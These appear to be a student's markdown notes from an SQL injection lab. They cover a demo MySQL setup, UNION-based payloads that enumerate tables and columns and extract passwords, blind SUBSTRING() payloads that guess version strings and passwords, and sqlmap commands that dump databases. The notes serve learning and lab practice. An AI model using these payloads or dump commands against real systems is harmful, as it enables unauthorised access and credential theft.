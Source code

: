 # SQL injection

### SQL Injection - Introduction

```
# start the mysql service
sudo systemctl start mysql

# login to mysql
sudo mysql

# create the db and tables
CREATE DATABASE sqldemo;
use sqldemo;
CREATE TABLE users (
	username varchar(255),
	password varchar(255),
	age int,
	PRIMARY KEY (username)
);

# insert data into the users table
INSERT INTO users (username,password,age)
VALUES ("jessamy","kittems",31);
```

### SQL injection - UNION

try and force SQL errors with `'` or `"`

Find injection with ojectively true statements `' or 1=1#`

Use union to pull data from tables and columns that aren't part of the SQL query

Union select can only select the same number of columns as the original query

Determine how many columns are being used with `null`:

`jeremy' union select null#`
`jeremy' union select null,null#`
`jeremy' union select null,null,null#`

Query the DB version with a union select:

`jeremy' union select null,null,version()#`

Table names:

`jeremy' union select null,null,table_name from information_schema.tables#`

Column names:

`jeremy' union select null,null,column_name from information_schema.columns#`

Exfiltrate passwords:

`jeremy' union select null,null,password from injection0x01#`

Null's may not work as the type won't match with the column (null is a string)

Use `null(int)` or basic integers instead:

`jeremy' union select null(int),1,password from injection0x01#`

[Portswigger SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### SQL injection - Blind

Check Content length headers for a successful request vs a failure as indicators for blind SQLi

Use burp suite repeater to test parameters. Check headers for injectable parameters (Cookies, User-Agent, 
etc.)

The search bar in Repeater will display matches to a keyword when the requests complete

Save a request from Burp by copy pasting into a text file, then run sqlmap with the request

`sqlmap -r req.txt`

Blind SQLi can only be used to obtain true or false responses

[Checking string values with SUBSTRING()](https://www.w3schools.com/sql/func_sqlserver_substring.asp) allows us to enumerate usernames, passwords, DB version, etc.

Blind SQL payloads:

Check version

`' and 1=1 and substring((select version()), 1, 1) = '8'#`
`' and 1=1 and substring((select version()), 1, 2) = '8.'#`
`' and 1=1 and substring((select version()), 1, 3) = '8.0'#`
`' and 1=1 and substring((select version()), 1, 5) = '8.0.3'#`

Password of a known user

`' and 1=1 and substring((select password from tablename where username = 'username'), 1, 1) = 'a'#`

Use sqlmap to test Cookies with `--level=2`

`sqlmap -r req.txt --level=2`

Dump the DB

`sqlmap -r req.txt --level=2 --dump`

Only dump a specific table

`sqlmap -r req.txt --level=2 --dump -T injection0x02`

### SQL injection Challenge

Find number of columns:

`' union select null,null,null,null#`

Find table names:

`' union select null,null,null,table_name from information_schema.tables#`

Find column names:

`' union select null,null,null,column_name from information_schema.columns where table_name = 'injection0x03_users'#`

Find usernames:

`' union select null,null,null,username from injection0x03_users#`
